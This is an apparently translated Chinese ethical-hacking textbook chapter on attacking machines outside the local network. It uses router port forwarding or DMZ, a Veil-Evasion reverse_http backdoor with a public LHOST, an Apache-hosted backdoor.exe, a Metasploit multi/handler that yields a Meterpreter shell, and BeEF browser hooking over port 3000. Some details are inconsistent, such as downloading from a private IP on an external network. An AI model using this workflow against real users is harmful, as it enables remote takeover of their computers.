# 第十五章：本地网络外的攻击

本章主要集中在对外部网络进行攻击的实现。为此，我们需要了解端口转发是什么，因此在本章中，我们将了解需要做什么才能通过路由器访问受害者的机器。到目前为止，我们一直专注于内部后门，现在我们将转向外部后门。接下来，我们将研究 IP 转发的概念，它在从本地网络外部发起攻击时起着至关重要的作用。我们还将通过示例来深入理解这个概念，并将我们的系统与外部 BeEF 浏览器挂钩。

在本章中，我们将涵盖以下主题：

+   端口转发

+   外部后门

+   IP 转发

+   外部 BeEF

# 端口转发

到目前为止，我们已经了解了多种方法来完全控制计算机。我们已经看到如何通过服务器端攻击、客户端攻击和社会工程学攻击来实现这一目标。到目前为止，所有的攻击都发生在内部网络中，我们选择这么做是出于便利考虑。这并不意味着这些攻击只能在网络内部生效；事实上，所有这些攻击在外部网络上也有效。唯一的区别是，我们需要将网络配置成允许来自外部的互联网连接。我们可以使用 BeEF、使用后门，也可以使用服务器端攻击——除了特殊情况，所有我们做过的攻击都适用于外部网络。我们需要记住的一点是，我们需要将路由器配置为正确处理反向连接，并将其引导到 Kali 机器上。接下来，我们将专注于这个方面，看看它是如何工作的，以及如何配置路由器以实现这一目标。

首先，让我们学习如何设置默认网络。我们在第五章《连接前攻击》中看到过类似的图示，在下图中，我们可以看到**路由器**、连接到**路由器**的**客户端**，以及连接到**互联网**的**路由器**：



我们之前提到过，**客户端**（网络内的所有设备）没有直接的互联网连接；它们只能通过**路由器**访问**互联网**。每当它们想要请求某些东西，或者访问一个网站时——例如，想要访问谷歌——设备会向**路由器**发送请求，接着**路由器**会访问**互联网**，获取 Google.com 的响应，然后将响应发送回**路由器**，最后**路由器**将该响应转发给请求的设备。

所以，在网络内部，每个设备都有其独立的私有 IP。从前面的示意图中我们可以看到，有些 IP 地址是红色的，这些 IP 只存在于网络内部；因此我们称它们为私有 IP，因为在网络外部，这些 IP 是不可见的。一旦我们进入网络，就会看到路由器有两个 IP 地址：它有一个红色的私有 IP，所有网络中的设备都可以访问，这个 IP 仅在网络内部使用；同时，它还有一个绿色的公共 IP，可以通过**互联网**访问。绿色高亮显示的 IP 是谷歌所看到的 IP。如果我们实际访问谷歌或任何其他网站，它们会看到一个 IP 地址，但不会看到我们的私有 IP 地址；它们实际上看到的是**路由器**的 IP 地址，因为**路由器**才是实际发出请求的设备，而不是计算机。网络中这些设备发出的所有请求都会显示为来自同一台机器，或者来自同一个 IP 地址。再次强调，这是因为唯一能访问**互联网**的设备是**路由器**，而其他设备无法直接访问。

在大多数情况下，或者说如果我们考虑所有的攻击，我们的主要目标通常是建立一个反向连接。即使在使用 BeEF 浏览器时，我们实际上也会在 `3000` 端口上建立连接，这是 BeEF 工作的端口；而在使用我们的后门时，我们会在设定的端口上接收到连接。当我们希望将后门发送到我们网络外部时，首先需要记住的一点是，我们的本地 IP 是不可见的。我们需要做的是使用公共 IP，也就是路由器的 IP。要知道路由器的 IP 地址，我们只需要打开 Google，然后在搜索框中输入 `whats my IP`。谷歌会返回路由器的 IP 地址，这个 IP 地址在同一网络中的所有设备上都是相同的。

现在，我们通过无线网卡连接。当我们启动命令时，我们将看到我们没有使用 NAT 连接，而是使用连接到家庭网络的外部无线网卡。因此，我们家中无线网络中的所有设备将具有相同的 IP。这是因为它们都使用同一个路由器连接到同一网络。我们将在我们的后门中使用这个 IP，我们将把后门发送给一个存在于互联网上的人，该人将运行该后门，并且该后门将使用反向连接。然后，它将尝试连接回路由器的`8080`端口，例如，如果我们在后门中选择了该端口。一旦路由器收到`8080`端口的请求，它将不知道如何处理该请求，因为路由器没有监听`8080`端口，并且此请求不会告诉路由器它想去哪里。我们所需做的就是配置路由器，告诉它我们希望在从它那里收到请求时将端口`8080`转发到 Kali 机器上。我们只是以`8080`作为示例，但我们可以对我们监听的任何端口执行此操作，无论是`8080`、`444`还是 BeEF 的`3000`。

主要思路是我们想要在网络外部使用我们的真实 IP。无论我们在先前章节或将来的章节中运行任何攻击，如果我们想要在互联网上对不存在于我们家庭网络中的某人运行该攻击，那么我们首先确保使用公共 IP，并确保配置路由器将请求转发到我们在 Kali 机器上监听的端口上。我们将在本章的下一节中看到如何操作。

# 外部后门

在本部分，我们将学习如何创建后门。唯一的区别在于，我们将把 IP 设置为公共 IP，而不是本地 IP，并且我们将创建一个后门，方式与我们在同一网络中攻击设备时所用的方式完全相同。为此，我们将使用**Veil-Evasion**，并且将使用在第十二章中使用的相同步骤，*客户端攻击*。我们可以使用`list`命令查看我们拥有的选项，我们将使用编号`9`，这是我们在第十二章中先前示例中使用的完全相同的有效载荷，*客户端攻击*中的`reverse_http`有效载荷。我们将使用命令`9`，可以使用`options`命令查看选项。如下面的屏幕截图所示，我们可以看到`LPORT`默认设置为`8080`，我们将保持不变：



我们唯一需要更改的是`LHOST`，在之前的部分中，当我们在自己的计算机上接收连接时，我们将其设置为本地 IP`192.168.0.11`，因为这是设备在网络内部使用的 IP；但是每当我们想在网络外部进行操作时，我们需要使用真实的 IP，因为这些内部 IP 在网络外部的计算机是不可见的。

现在，我们将使用在谷歌上看到的 IP，因此当我们在 Google 搜索中输入`whats my IP`时，我们会得到 IP 地址`89.100.145.189`；我们将把它作为我们的后门中的`LHOST`，然后我们将执行以下命令：

```
set LHOST 89.100.145.189
```

然后，为确保一切设置正确，使用`info`命令。一旦我们启动`info`命令，我们将看到端口是`8080`，并且我们正在使用公共 IP`89.100.145.189`：



这是最重要的一步，然后我们将使用`generate`命令来生成后门，就像我们在之前的章节中做的那样，我们将把后门命名为`backdoor.exe`。按*Enter*键，这将为我们生成有效负载。有效负载的路径可以在下面的截图中看到：



和往常一样，我们将通过以下命令将后门复制到我们的 Apache 服务器`/var/www/html`目录中：

```
cp /var/lib/veil-evasion/ouput/complied/backdoor.exe /var/www/html
```

我们还将看到如何从网络外部下载这个后门。现在，我们只需要通过 multi-handler 监听传入的连接，我们之前在第十二章中做过这个操作，*客户端攻击*。当我们使用 multi-handler 进行监听时，我们将监听本地 IP，因此我们不会监听外部/全局 IP，我们只会监听本地 IP，因为我们不能监听外部 IP，我们只控制当前的 Kali 机器。在 Kali 机器上，我们将在端口`8080`上进行监听，而在外部设备上，后门将尝试连接到后门。接下来的步骤是，我们将设置 IP 转发，允许路由器将端口`8080`转发到 Kali 机器。但是首先我们需要在 Kali 机器上监听端口`8080`，我们将通过以下步骤使用 multi/handler 来实现：

1.  使用`msfconsole`命令打开 Metasploit 框架。

1.  我们将使用`exploit/multi/handler`，并使用以下命令：

```
use exploit/multi/handler
```

1.  将有效负载设置为`windows/meterpreter/reverse_http`：

```
set PAYLOAD windows/meterpreter/reverse_http
```

1.  接下来，我们将`LPORT`设置为`8080`：

```
set LPORT 8080
```

1.  将`LHOST`，即监听主机，设置为我们的私有 IP。我们将`LHOST`设置为`192.168.0.11`。命令如下：

```
set LHOST 192.168.0.11
```

1.  现在我们要运行 `show options`，确保一切配置正确。我们可以在以下截图中看到，`LPORT` 被设置为 `8080`，本地主机被设置为 `192.168.0.11`，并且我们使用的负载是 `windows/meterpreter/reverse_http`：



1.  通过运行 `exploit` 命令启动 `handler`。正如我们在以下截图中看到的，`exploit` 已在我们的私有 IP 上准备就绪，并且在端口 `8080` 上监听连接：



到目前为止，我们完成了两个主要步骤：我们创建了一个后门，后门将根据真实的 IP 地址为我们提供连接；并且我们在本地机器（Kali 机器）的端口 `8080` 上进行监听。当目标用户在互联网上执行后门时，后门将尝试连接到 IP `192.168.0.11` 的端口 `8080`。现在唯一的问题是网关，也就是路由器；它没有开放端口 `8080`，当它收到连接时，不知道该如何处理。我们需要配置路由器，告诉它每当我们在端口 `8080` 上收到连接时，要将其重定向到我们的 Kali 机器。我们可以通过两种方式来实现这一点，我们将在接下来的章节中讨论这两种方法。

# IP 转发

在这一部分，我们将学习如何配置路由器，以便它将传入的连接转发到 Kali 机器。这意味着我们可以接收反向连接，可以将人们钩住到 BeEF 浏览器中，并像在内部网络中一样发起外部网络的攻击。要进入路由器设置，通常路由器的 IP 是子网中的第一个 IP，我们的 IP 是 `192.168.0.11`，通常路由器是第一个，所以它的 IP 会是 `192.168.0.1`。另外一种获取路由器 IP 的方法是输入 `route -n` 命令，这会显示网关所在的 IP。正如我们在以下截图中看到的，网关在 `192.168.0.1`。以下是路由器的本地 IP 地址：



我们将通过浏览器访问 IP `192.168.0.1`。只需在地址栏中输入该地址并按 *Enter*，正如我们在以下截图中看到的，我们已经进入了路由器设置页面，并且需要使用用户名和密码登录：



现在，路由器的设置界面可能因路由器不同而有所不同，但名称通常是相同的。首先，我们通常需要登录，可能有默认的用户名和密码，或者我们可以在路由器背面或底部的贴纸上找到这些信息。登录后，我们将看到控制面板，虽然每个控制面板的外观可能不同，但我们需要寻找名为 IP 转发的选项。对于某些路由器，这个选项可能在 *ADVANCED*（高级）菜单下。进入 *ADVANCED*，然后进入 *FORWARDING*（转发），正如我们在以下截图中看到的，我们可以在这里设置 IP 转发：

设置 IP 转发

查找名为 IP 转发的设置；我们实际上在一些路由器上看到过叫做 *虚拟网络* 的选项，但我们要寻找的是能够让我们设置规则来重定向网络内部端口的选项。我们监听的端口是端口 `8080`，这是我们在处理程序中选择的端口，也是我们在后门程序中选择的端口，也是我们想要获取连接的端口。因此，公共端口将是 `8080`，目标端口依然是 `8080`，而目标 IP 地址是监听该端口的 IP 地址，因此这是我们 Kali 机器的 IP 地址，其中运行着我们的处理程序。因此，Kali 机器的 IP 地址是 `192.168.0.11`，我们甚至可以通过 `ifconfig` 命令的结果来交叉检查。我们将把 `ifconfig` 命令返回的 IP 输入到路由器设置中的目标 IP 地址文本框中——这就是我们要添加的规则：



设置 IP 和端口

点击保存，规则将被保存，每当路由器接收到端口 `8080` 的请求时，它将知道要将该请求转发到 Kali 机器，并且路由器不会切断连接。

因此，我们现在已经设置了一个正确的路由。我们做的第一件事是创建了一个后门，我们在后门中使用了真实的 IP 地址，而不是私有 IP 地址，因此我们没有使用 `192.168.0.11`，而是使用了真实的 IP。我们将把这个后门发送到另一个网络中的设备，该设备将运行后门，后门将尝试通过真实 IP 连接回路由器，但路由器将准确知道如何处理它，因为我们刚刚设置了一个规则，告诉路由器将收到的任何端口 `8080` 的请求转发到 Kali 机器。我们实际上还想为端口 `80` 设置规则；这是 Apache 服务器运行的端口，我们希望启用它，以便从目标计算机下载后门。我们将为端口 `80` 添加一个规则，这将是同一台机器——Kali 机器。我们将输入端口 `80` 并保存这个规则：



配置 IP 表

这将允许我们下载后门，因为我们把后门放在了 `/var/www/html` 目录中，意味着我们实际上可以从 Kali 的 Web 服务器访问并从外网下载后门。

现在启动我们的 Apache Web 服务器，然后去一台 Windows 机器，这台 Windows 机器将连接到一个完全不同的网络，我们将从那里下载文件。如果我们检查一下我们的 IP 地址，会看到它有一个不同的外部公共 IP。因此，我们只需要在 Google 上查找我们的 IP 地址。这个 IP 是 `109.125.19.76`，它与我们使用的 Kali 机器的 IP 完全不同。这是两台完全独立的设备，连接到不同的网络，现在我们将访问我们的 Apache Web 服务器并下载后门，通常没有 IP 转发的话我们是无法做到这一点的。首先，为了访问后门，我们将获取 Kali 机器的 IP。我们把后门命名为 `backdoor.exe`，因此我们只需在 Windows 机器上打开一个浏览器，在 URL 地址栏中输入 `192.168.0.11/backdoor.exe`。按下 *Enter* 后，我们将能够下载后门，这实际上告诉我们 IP 转发已正确设置，因为没有它，我们将无法访问 Web 服务器并下载后门。因此，我们实际上是在访问 Kali 上的 Web 服务器，就像访问一个普通的网站一样，我们现在可以在 Apache 服务器上托管虚假网页、托管网站或我们想做的任何事。

现在我们将在一台 Windows 机器上运行后门，并查看它是否能在我们的 Kali 机器上建立反向连接，而 Kali 机器处于完全不同的网络中。正如我们在下面的截图中看到的，我们获得了一个反向的 Meterpreter shell，这个 shell 是从一个外部 IP 地址进入我们内网的 Kali 机器，现在我们可以控制目标计算机并执行我们在后连接攻击中做的所有操作：



# 外部 BeEF

现在让我们看一个示例，展示如何在用户处于我们网络之外时，将他们连接到 BeEF。所以，我们将以一台完全位于不同网络中的 Windows 机器为例，看看如何将这台机器连接到 BeEF。我们将通过单击 BeEF 框架图标来启动 BeEF 浏览器。接着，我们将使用用户名 `beef` 和密码 `beef` 登录。现在，我们将使用之前在第十三章《客户端攻击 - 社会工程学》中使用的相同基础 `hook` 方法，在该方法中，我们需要获取脚本代码，之前我们已经做过 - 过程相同，我们将脚本放置到 Apache Web 服务器中，放在 Apache 网站根目录 `/var/www/html` 下的一个 HTML 页面里。我们将打开 `index.html` 文件，然后打开文本编辑器，将从 BeEF 终端获得的代码粘贴到 `index.html` 中。唯一需要修改的是将所有以前使用的正常 IP 替换为外部 IP，以便当别人尝试连接时，他们实际上能够找到我们的计算机，因为如果我们使用内网 IP，他们将无法连接。我们将使用在 Google 上输入 `whats my IP` 时看到的 IP 地址，然后保存文件。

完成后，我们需要启用端口 `3000`，这是 BeEF 使用的端口。我们需要在路由器的 IP 转发设置中告知它，将任何对端口 `3000` 的请求转发到我们的 Kali 机器，Kali 机器的 IP 地址是 `192.168.0.11`。接着，去到 Windows 机器，访问我们的网站，实际上就是我们 Kali 机器的外部 IP 地址。这将自动运行 `index.html` 文件，我们只要浏览到这个 IP 就应该能连接到 BeEF。正如我们在下面的截图中看到的，我们已经成功地将 Windows 机器连接到 BeEF，它正在使用 Firefox 5.0，现在我们可以执行 BeEF 允许我们运行的所有命令：



现在，让我们弹出一个警告框，看看它是否有效。正如我们在下面的截图中看到的，它显示的是 BeEF 警告对话框：



我们只需执行它，确保一切正常。正如我们在下面的截图中看到的，我们已经成功连接到一台位于完全不同网络中的机器：



再次强调，我们需要做的就是使用外部 IP 地址。每当我们将请求发送到网络外部时，使用在 Google 上输入 `what's our IP` 时显示的 IP 地址。当我们在自己的机器上时，使用本地 IP，并确保我们配置路由器将监听的端口转发到 Kali 机器的 IP 地址，即 Kali 机器的私有 IP 地址。

作为使用 IP 转发的替代方法，我们可以将 Kali 机器设置为 DMZ 主机。不过，并不是所有的路由器都支持 DMZ，因此我们从一开始并没有展示这个方法；但如果路由器支持，我们就可以使用它。DMZ 的作用基本上就是 IP 转发，但它会转发所有端口。因此，如果我们将 Kali 机器的 IP 地址放在这里，路由器将会接收到任何端口的请求，并将该请求转发到 Kali 机器，而不管请求的是哪个端口。因此，通过端口转发，我们实际上是选择想要转发到 Kali 的端口；而使用 DMZ 时，它会将所有端口的请求转发到我们在这里放入的 IP 地址。时不时地，这两种方法都可以用来允许不同网络上的设备访问我们的计算机，我们可以接收连接，允许它们访问网站（如果我们在我们的 Web 服务器上托管网站），允许它们访问虚假网站，允许它们访问 BeEF、钩子，或者任何我们在监听的端口上使用的方法，如果这些人处在与我们自己的网络完全不同的网络上。

# 总结

在本章中，我们主要关注了如何攻击外部网络并实施这种攻击。我们研究了一些基础知识，例如端口转发，这意味着将请求从一个端口重定向到另一个端口。我们甚至研究了外部后门以及如何利用它们，发现它们与内部后门没有什么不同。接下来，我们继续探讨攻击网络的另一个方面，学习了 IP 转发，了解了如何确定数据包流经的路径。我们还通过实际例子来演示这个过程。下一章，我们将研究即使受害者的系统没有运行软件，仍然能够访问其系统的技术。
